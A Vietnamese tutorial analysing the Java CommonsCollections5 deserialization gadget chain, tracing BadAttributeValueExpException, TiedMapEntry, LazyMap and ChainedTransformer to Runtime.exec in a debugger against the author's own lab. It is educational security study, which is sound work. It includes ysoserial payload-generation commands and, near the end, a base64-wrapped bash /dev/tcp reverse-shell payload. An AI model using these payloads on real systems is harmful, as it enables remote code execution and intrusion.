## Phân tích chain nhập môn CC5

`CommonsCollections5` nằm trong bộ gadgetchains CommonsCollections 1-7 nhằm khai thác thư viện Commons Collections, bộ gadgetchain này về cơ bản cũng đều lợi dụng class `InvokerTransformer` để invoke method.

CC5 lợi dụng lớp `BadAttributeValueExpException` của JDK ≤ 8u76 kết hợp với các lớp của Apache Commons‑Collections  cũ để thực thi lệnh tùy ý trong quá trình deserialization.

### Khởi tạo payload và setup môi trường biên dịch

Đầu tiên kiểm tra xem máy có những JDK gì

```bash
sudo update-alternatives --list java

/usr/lib/jvm/java-17-openjdk-amd64/bin/java
/usr/lib/jvm/java-21-openjdk-amd64/bin/java
/usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java
/usr/lib/jvm/openlogic-openjdk-8-hotspot-amd64/bin/java
```

Có thể thấy hiện tại mình đang có 4 "loại" java.  Ta có thể lựa chọn phiên bản như sau

```bash
sudo update-alternatives --config java

There are 4 choices for the alternative java (providing /usr/bin/java).

  Selection    Path                                                     Priority   Status
------------------------------------------------------------
* 0            /usr/lib/jvm/java-21-openjdk-amd64/bin/java               2111      auto mode
  1            /usr/lib/jvm/java-17-openjdk-amd64/bin/java               1711      manual mode
  2            /usr/lib/jvm/java-21-openjdk-amd64/bin/java               2111      manual mode
  3            /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java            1081      manual mode
  4            /usr/lib/jvm/openlogic-openjdk-8-hotspot-amd64/bin/java   0         manual mode

Press <enter> to keep the current choice[*], or type selection number: 3
update-alternatives: using /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java to provide /usr/bin/java (java) in manual mode
```

Ta cũng có thể chọn phiên bản cho javac tương tự bằng command: `sudo update-alternatives --config javac`

Ở đây mình chọn phiên bản 8 cho cả java và javac để có thể complie yoserial trực tiếp trên host thay vì sử dụng docker.

Sau khi thành công biên dịch và đóng gói bằng command `mvn clean package -DskipTests`, ta có thể thử chạy sinh payload bằng command như sau, ở đây ta thêm pipeline base64 cho dễ quan sát, hoặc cũng có thể redirect đến `payload.ser`

```bash
java -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections1 "touch /tmp/pwned" | base64 -w0
```

### Dựng môi trường để thử nghiệm payload

Mình đã xây dựng một lab để thử nghiệm những chain sử dụng Common Collections. Ở đây mình thêm phiên bản thấp của nó để có thể hoạt động (version 3.2.1).

Source code của lab: http://link.com

Sink của lab nằm ở `/deserialize`

```java
  @PostMapping("/deserialize")
  public String deserialize(Model model) {
    model.addAttribute("drinks", Drink.values());
    try {
      byte[] data = Files.readAllBytes(UPLOAD);
      try (ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(data))) {
        Object obj = ois.readObject(); 
  .
  .
  .
```

Ở đây attacker có thể upload file `.ser` với nội dung tùy ý và service sẽ thực hiện quá trình deserialize từ file đó.

### Phân tích chain

Khi đọc source code payload của cc5, đầu tiên ta thấy được chain bắt đầu từ `BadAttributeValueExpException.getObject()`



Nhảy vào class này để bắt đầu quá trình debug. Ta thấy được method readObject() của class này như sau:



Nói sơ qua về method này, đây là một method readObject được custom. Nó xử lý cách object `BadAttributeValueExpException` được deserialize một cách an toàn với nhiều kiểu dữ liệu khác nhau, ở đây nó kiểm tra SecurityManager nếu được cấu hình (một cơ chế bảo mật giới hạn quyền truy cập của java, tuy nhiên đến Java18 thì đã bị loại bỏ do lỗi thời.) hoặc chỉ chấp nhận một số loại object cụ thể. 

Quay lại code payload của CC5, ở đây đã cấy `TiedMapEntry` vào object được class BadAttributeValueExpException xử lý buộc jvm xử lý toString() của class này.



> `TiedMapEntry` là một **class đặc biệt** trong thư viện Apache Commons-Collections. Có thể hiểu nó như là một con trỏ tới một cặp key–value trong một `Map`.  Nó không lưu trữ giá trị trực tiếp, mà mỗi khi sử dụng `getValue()` hoặc `getKey()`thì nó truy vấn lại `Map` gốc bằng key đó.

Trong gadget chain, TiedMapEntry được gán vào object `BadAttributeValueExpException`, khi jvm gọi toString() trên object.

Nói ngoài lề cái chain CC5 này một chút. Có một vài chain tấn công thường dùng trong đó có: `HashMap` -> `Object.hashCode()` và `BadAttributeValueExpException` -> `Object.toString()`. Nói về cái thứ 2, cũng chính là chain được dùng trong cc5, lý do nó có thể sử dụng để khai thác là do class này trong quá trình thực hiện toString() sẽ gọi toString() của giá trị `val` bên trong. Nếu ta cho giá trị val này là một object thì có thể invoke được toString() của cái object đó.

Như vậy ta có thể nhận xét như trong bài viết này: https://tsublogs.wordpress.com/2023/02/26/javasecurity101-5-java-deserialization-ysoserial-3/, rằng khi gặp 2 chain này, (HashMap hay BadAttributeValueExpException) thì thực hiện cấy object để thực hiện tiếp quá trình chain bằng cách sử dụng toString hoặc hashCode của object đó luôn.

Quay trở lại cc5, để ý thấy rằng code lại dùng Reflection API để cấu hình val (là một TiedMapEntry) thay vì truyền trực tiếp giá trị val vào constructor của BadAttributeValueExpException. Tại sao lại vậy?

Nguyên nhân là do trong quá trình tạo payload nếu set trực tiếp, ví dụ như thế này: `new BadAttributeValueExpException(tiedMapEntry);`thì sẽ gọi constructor của nó, mà tại constructor lại gọi toString của cái object truyền vào, kích hoạt sớm lúc tạo payload mà không cần gọi readObject(). Như trong bài viết này, tác giả đã thử sử dụng cách gán trực tiếp thay vì dùng Reflection API để cấu hình giá trị val, từ đó lệnh được thực thi ngay lập tức trong lúc tạo payload.

[Java Deserialize - P2 - HackMD](https://hackmd.io/@endy/HyzJE0jO2?utm_source=preview-mode&utm_medium=rec&stext=5451%3A685%3A0%3A1753705247%3AxLNByu)



Đến đây ta đã biết vì sao lại sử dụng Reflection để cấu hình val trong BadAttributeValueExpException. Tiếp tục debug xem quá trình tiếp theo là gì. Ở đây ta đặt debug tại dòng gọi toString của cái val được đặt vào, val ở đây là TiedMapEntry



Có thể thấy val (hay valObj) là một TiedMapEntry, nhưng điều đặc biệt đã xảy ra khi mà chưa đi hết payload thì đã thực thi lệnh gọi calulator! 

Điều này được giải thích bởi anh Jang trong bài viết [The Art of Deserialization Gadget Hunting [part 2]](https://sec.vnpt.vn/2020/02/the-art-of-deserialization-gadget-hunting-part-2?page=42). Nói đơn giản, debugger của Intellij đã vô tình thực hiện toString() của object để cho người dùng dễ nhìn. Điều đó vô tình thực thi nốt phần sau của payload trong khi ta đã đặt breakpoint và chưa debug đến các phần sau. Tuy nhiên một tác giả bài viết khác đã tắt chức năng kích hoạt toString() của Intellij nhưng vẫn vậy, nên phần này mình cũng không rõ.


Như vậy để tiếp tục phân tích thì chỉ cần bỏ breakpoint ở đây và đặt breakpoint ở phần tiếp theo là được. Ở đây ta tiếp tục đặt ở toString() của `TiedMapEntry`.



Tuy nhiên khi đặt breakpoint ở dòng này, khi debug vẫn vô tình thực thi lệnh gọi calculator. Lý do vẫn là debugger của Intellij tiếp tục gọi ngầm toString() của `this` hay chính lại là toString() của `TiedMapEntry` !



Vậy nên ta vẫn phải tiếp tục bỏ breakpoint ở dòng này và đi đến phần tiếp theo, là `getValue()` của class này . Tất nhiên là ở đây điều tương tự sẽ xảy ra cho nên ta tiếp tục đi tới phần tiếp theo của chain mà không đặt debug ở đây. Hàm getValue() như sau:



Quay trở lại phần code payload một chút, giá trị của val được định nghĩa là entry như sau:



Như vậy, `map.get(key)` chính là `LazyMap.get("foo")`. Ta thực hiện debug method get của Lazymap. 



Ở đây kiểm tra xem giá trị key có phải là null không, mà ta đã truyền 'foo' vào nên payload tiếp tục nhảy vào trong statement if:



xét `Object value = factory.transform(key);`, đây chính là trái tim của cái gadget chain này.



Trong LazyMap.java có 2 constructor, ở đây ta truyền tham số đầu vào là một biến kiểu `Transfomer` với giá trị thực tế là `ChainedTransFormer`, qua đó khi gọi `factory.transform(key)` nghĩa là gọi `ChainedTransformer.transform()`. Ta tiếp tục thực hiện quá trình debug method này.

> Transformer là một interface trong Commons Collections, là một cơ chế biến đổi object này thành object khác. Transformer được sử dụng trong các class như LazyMap, TransformedMap, v.v… để chỉ định cách mà giá trị sẽ được tự động biến đổi khi được truy cập, thêm vào, hoặc xử lý.

### Phân tích chain phần 2

Constructor và method transform của class này như sau:



Ở constructor nhận một mảng các `Transformer` làm tham số, lưu vào biến `iTransformers` là nơi chứa tất cả các transformer chạy nối tiếp nhau:


Method transform nhận một `object` làm đầu vào, sau đó chạy qua từng transformer trong mảng iTransformers. Mỗi transformer sẽ xử lý `object` và trả về kết quả mới. Kết quả này lại được đưa tiếp vào transformer kế tiếp. Cuối cùng trả về kết quả sau cùng.

Vì phần tiếp theo tuân theo logic như thế này cho nên hơi khó hình dung. Ta có thể có một ví dụ tương tự cho cái này như sau:

Giả sử có 3 transformer:

- **T1**: nhân đôi số.

- **T2**: cộng 10.

- **T3**: chuyển số thành chuỗi.

Khi truyền số 5 vào nó sẽ thực hiện `5 → T1 → 10 → T2 → 20 → T3 → "20"`

Quay lại phần khởi tạo payload, ta chú ý đến phần tạo ra các transfomer:



Đầu tiên payload tạo một "placeholder" sử dụng một transfomer vô hại `ConstantTransformer(1)` để tránh bị thực thi sớm, sau đó dùng Refflection để thay thế bằng transfomer thật. Điều này có thể giúp tránh detection sớm hoặc chống crash, kỹ thuật này gọi là _arming after setup_:



Phân tích quá trình tạo các transfomer thật như sau:

- `ConstantTransformer(Runtime.class)` trả về class `java.lang.Runtime`.

- `getMethod("getRuntime", new Class[0])` lấy method tĩnh `Runtime.getRuntime()`.

- `invoke(null, new Object[0])` gọi `Runtime.getRuntime()` để lấy instance của `Runtime`

- `exec(command)` gọi `Runtime.getRuntime().exec(command)` để thực thi lệnh hệ thống.

- `ConstantTransformer(1)` trả về 1 (để làm sạch kết quả cuối cùng, ngăn lỗi)

Tổng quát như sau:

```
Runtime.class
→ Runtime.class.getMethod("getRuntime")
→ Runtime.getRuntime()
→ exec(command)
```

Thực hiện debug, ta cũng thấy được các `iTransfomers` cùng với các value tương ứng như sau:



Ta sẽ đi phân tích chi tiết từng giá trị của `iTransformers` tương ứng với các vòng lặp tại method `transfer` của `ChainedTransformer` bên trên.

```java
final Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),                           // [0]
    new InvokerTransformer("getMethod", ...),                         // [1]
    new InvokerTransformer("invoke", ...),                            // [2]
    new InvokerTransformer("exec", ...),                              // [3]
    new ConstantTransformer(1)                                        // [4]
};
```

Chúng ta cùng xem lại vòng lặp của method `transform` của class `ChainedTransformer`, debug ta thấy được 5 giá trị của mảng `iTransformers` tương ứng với 5 lần ta gán biến kiểu `Transformer` vào array khi tạo payload:



#### Vòng lặp thứ nhất

Tại vòng lặp đầu tiên, `java.lang.Runtime` sẽ  là giá trị được trả về và cũng là giá trị tiếp theo được sử dụng. Nói cách khác, method này nhận đầu vào là "foo" và luôn trả về java.lang.Runtime, code định nghĩa biến kiểu `ConstaintTransfomer` ở phần tạo payload như sau:


Phân tích sâu hơn một chút, tại vòng lặp đầu tiên này giá trị object được định nghĩa:



Có thể định nghĩa `iTransformers[0] = new ConstantTransformer(Runtime.class);`, nó là một object thuộc lớp ConstantTransformer, được khởi tạo với giá trị cố định là Runtime.class.

Như vậy khi gọi `iTransformers[0].transform(object)` nghĩa là gọi `ConstaintTransformer.transform(object)` với giá trị đầu vào của biến kiểu ConstaintTransformer luôn trả về Runtime.class và giá trị object là "foo" (do thằng LazyMap truyền vào đầu tiên). Ta có thể kiểm tra constructor và method này tại ConstaintTransformer.java:



Như hình ảnh, ta có thế hiểu rõ hơn vì sao khi ta đưa `Runtime.class` vào ConstaintTransformer khi khởi tạo payload thì method transform của nó luôn trả về cái ta đưa vào.

#### Vòng lặp thứ hai

Đến vòng lặp thứ hai, tiếp tục debug ta thấy được object tiếp theo được sử dụng chính là class `java.lang.Runtime`! Như vậy là logic của bài toán ở vòng for đã được làm rõ như ở ví dụ đơn giản bên trên của mình.



Đến đây, biến `iTransform[1]` là kiểu `InvokerTransformer`  thay vì là ConstaintTransformer như ở vòng lặp trước. Ta tiếp tục kiểm tra class InvokerTransformer xem sao:



Có thể thấy chúng ta sẽ nhảy thẳng vào trong cục try tại method `transform` của InvokerTransformer. 

Ở đây định nghĩa một biến `cls` mang giá trị class của input, trong vòng lặp thứ hai này input ở đây là `class java.lang.Runtime`. Đây là một object kiểu class, cụ thể là `Class<Runtime>`, như vậy input.getClass() sẽ trả về Class.class, hay còn có thể nói `cls = java.lang.Class`.

> Nói cách khác: `Runtime.class` là một **object**, và object này có kiểu là `Class`. Nên `getClass()` trên nó sẽ trả về `Class.class`.

Trích dẫn từ nguồn mình tham khảo:



Dòng code tiếp theo: biến `method` có kiểu Method được định nghĩa là `cls.getMethod(iMethodName, iParamTypes)`. Ở đây ta có các yếu tố được mô tả như hình bên trên như sau: 

- input = Runtime.class

- cls = input.getClass() = Class.class

- iMethodName = "getMethod""

- iParamTypes = [String.class, Class[].class]

- iArgs = ["getRuntime", new Class[0]] 

Lúc này `method` tương đương với `Class.class.getMethod("getMethod", String.class, Class[].class);`, chúng ta đang gọi getMethod(...) trên chính đối tượng Class.class tức là đang tìm method getMethod bên trong class Class nhờ getMethod.


Phân tích kĩ hơn một chút ở quá trình lấy giá trị của biến method như sau: ta có 3 tham số truyền vào là method cần tìm với tên "getMethod", và một String là tên của method cần lấy và một Class[] là danh sách các kiểu tham số của method đó. Kết quả là ta sẽ lấy được một method trong java với dạng:

```java
public Method getMethod(String name, Class<?>... parameterTypes)
```

Thật vậy, ta có thể kiểm tra method `getMethod` trong Class.java như sau:



Nói tóm lại là biến `method` chính là method `getMethod` của class `java.lang.Class`

Cuối cùng trả về  `method.invoke(input, iArgs)`. Nó chính là ``Runtime.class.getMethod("getRuntime", new Class[0])`` . Chi tiết vì sao nó lại thế thì mình có thể hiểu như sau:

Đoạn này gọi một method một cách gián tiếp thông qua Reflection, cụ thể là `getMethod`. Đầu vào hiện tại ta có:

- input = Runtime.class, đây là một object thuộc lớp class, tức là ta đang thao tác với class `Runtime` chứ không phải một instance.

- method = object đại diện cho method `getMethod` của `java.lang.Class`

- iArgs = new Object[] { "getRuntime", new Class[0] }

Ta có "phương trình" như sau:

`method.invoke(input, iArgs)`

`method.invoke(input, new Object[] { "getRuntime", new Class[0] })`

`((Class)input).getMethod("getRuntime", new Class[0])`

`Runtime.class.getMethod("getRuntime", new Class[0])`

Cách dùng `method.invoke(input, args)` trong payload xuất phát từ nhu cầu gọi method một cách linh hoạt và gián tiếp, ví dụ như khi không biết hoặc không thể truy cập trực tiếp đến class hoặc object tại thời điểm compile (ví dụ: class private, không thể cast được).

Muốn xây dựng một  gadget chain ta có thể sử dụng reflection để trích xuất và gọi bất kỳ method nào miễn là có thể tham chiếu qua tên và tham số.

Ví dụ trong chain `InvokerTransformer("getMethod", ...)`, ta không trực tiếp viết `Runtime.class.getMethod(...)`, mà thông qua chuỗi `.transform(...)` để tạo ra toàn bộ hành vi từ chuỗi các transformer, điều này giúp payload có thể được thực thi khi object bị deserialized.

Nói cách khác, đây là một cách để “nạp động” các hành vi từ dữ liệu thay vì mã tĩnh, giúp bypass các hạn chế như:

- Object không cast được (class private, internal, v.v.)

- Không thể gọi trực tiếp method (vì đang bị gọi từ trong serialization context)

- Cần thực thi code ở runtime, bypass filter nếu có

`method.invoke(...)` là cách phổ biến nhất trong Java để thực thi hàm thông qua reflection, nên nó là cốt lõi trong các gadget chain.

Nói chung kết quả trả về của vòng lặp này là method `getRuntime` của class Runtime, object lúc này là method `Runtime.getRuntime()`.

Chúng ta thử xác nhận lại lý thuyết trên bằng cách thực hiện debug xem sao:



Ở đây debugger của Intellij đã xác nhận `cls` là class `Class`, `method` là một method `getMethod` của class `Class`.



Tiếp tục debug đến vòng lặp thứ ba, ở đây ta thấy được object chính là kết quả được trả về ở vòng lặp thứ hai, chính là method `Runtime.getRuntime()`, ở đây intellij debug kết quả object chính là dưới dạng string mô tả của Method.toString().

#### Vòng lặp thứ ba

Ta tiếp tục ngó lại những param của InvokerTransformer ở code tạo payload:



Có thể thấy cấu trúc tương tự như cái InvokerTransformer đầu tiên, cho nên logic khi chain của vòng lặp này tương tự cái vừa nãy. Tuy nhiên lại có sự khác biệt ở method được sử dụng.

Ở vòng lặp trước ta mới chỉ gọi ra một object `Method` đại diện cho method `getRuntime()` trong class `Runtime` sử dụng method `getMethod` . Còn ở đây ta đã thực sự invoke cái method này.

Do đó, kết quả trả về ở vòng lặp thứ hai là một object kiểu `java.lang.reflect.Method` đại diện cho hàm `getRuntime()`, còn vòng lặp thứ ba trả về kết quả của việc gọi hàm này, tức là một object của `java.lang.Runtime`.

> `java.lang.reflect.Method` là một class trong Java đại diện cho một method của một class. Nó cho phép thao tác với method đó dưới dạng object: lấy tên, kiểu trả về, tham số, và  invoke method đó trên một object cụ thể. Đây là một phần của Java Reflection API dùng để thao tác với các thành phần của class (như field, method, constructor) tại runtime.



Như trong bức ảnh debug này, `cls` giờ là `java.lang.reflect.Method` và `method` là method `invoke` của `java.lang.reflect.Method`. 

Ta cũng sẽ có một cái "phương trình" như sau:

`method.invoke(input, iArgs)`

= `Method.invoke(input, new Object[] { null, new Object[0] })`

= `((Method) input).invoke(null, new Object[0])`

= `((Method) Runtime.class.getMethod("getRuntime", new Class[0])).invoke(null, new Object[0])`

= `Runtime.getRuntime()`

Có thể nói là ở đây đã sử dụng reflection của reflection hay dùng `Method.invoke(...)` để gọi `Method.invoke(...)`, nhằm thực thi `Runtime.getRuntime()` một cách gián tiếp.

Sau khi `invoke` xong ta đã chính thức có được object `Runtime` để dùng cho vòng lặp tiếp theo.

Tiếp tục debug để kiểm nghiệm lại xem sao:


đến vòng lặp thứ 4, object được debug là một object `Runtime` "thật", chuẩn bị để sử dụng cho command exec sau.

#### Vòng lặp thứ tư

Quay lại phần code payload, ta ngó quá phần khởi tạo InvokerTransformer tiếp theo:



Đến vòng lặp số 4 trong chuỗi `transformers`, lúc này ta đang xử lý `InvokerTransformer` có nhiệm vụ gọi method `"exec"` với param là chuỗi lệnh cần thực thi, ví dụ `"calc.exe"` hay ở đây mình sử dụng `"gnome-calculator"`.

Ở vòng này, `input` không còn là một class hay method nữa, mà là chính object `Runtime` chính là kết quả của các bước transform trước đó. Cụ thể, `object = Runtime.getRuntime()`.

Thực hiện debug ở phần transform:



Tiếp tục debug F5 qua đoạn này là sẽ pop up lên cái máy tính, xác thực khả năng RCE của payload này.

### Thử nghiệm payload trên lab

Ở đây mình sẽ sử dụng luôn lab đã build để ở bên trên.



Tóm tắt về cái lab này, nó sẽ nhận giá trị để lưu trữ rồi serialize nó lại. Ta có thể deserialize bằng cách upload file `.ser` rồi để serivce thực hiện deser trên cái file đấy.

Để có thể sử dụng payload từ yoserial, ta thực hiện payload với gnome-calculator xem sao:



Vì đang chạy trực tiếp trên host nên nó pop-up luôn cái máy tính.

Tuy nhiên đạt được RCE rồi mà chưa reverse shell được thì hơi phí. Ta biết được rằng chain này thực thi lệnh bằng `Runtime.getRuntime().exec()`, nếu dùng các kiểu command bình thường sẽ bị lỗi do liên quan tới các vấn đề parsing. Vậy nên sẽ phải có một số các payload đặc biệt để xử lý vấn đề này.

Mình đã tìm được tài liệu sau: [GitHub - welk1n/ReverseShell-Java: Generating payloads to reverse shell in different contexts of java.](https://github.com/welk1n/ReverseShell-Java)

Ở đây có một vài cách như sau:



Mình tiến hành khởi tạo payload: base64 command muốn thực thi `bash -i >& /dev/tcp/0.0.0.0/2727 0>&1` trở thành `YmFzaCAtaSA+JiAvZGV2L3RjcC8wLjAuMC4wLzI3MjcgMD4mMQ==`

Sau đó nhét vào payloads. Command đầy đủ để khởi tạo payload với cách này như sau:

`java -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8wLjAuMC4wLzI3MjcgMD4mMQ==}|{base64,-d}|{bash,-i}" > order.ser`

Thực hiện upload file `.ser` này rồi deser, thành công có được shell.



### References:

> Là một người mới học java, mình muốn cảm ơn mọi người về những bài viết public này, chúng đã giúp đỡ mình rất nhiều

[The Art of Deserialization Gadget Hunting [part 2]](https://sec.vnpt.vn/2020/02/the-art-of-deserialization-gadget-hunting-part-2?page=42)

[Java Deserialize - P2 - HackMD](https://hackmd.io/@endy/HyzJE0jO2)

[# JavaSecurity101 – #5: Java Deserialization – ysoserial 3](https://tsublogs.wordpress.com/2023/02/26/javasecurity101-5-java-deserialization-ysoserial-3/)
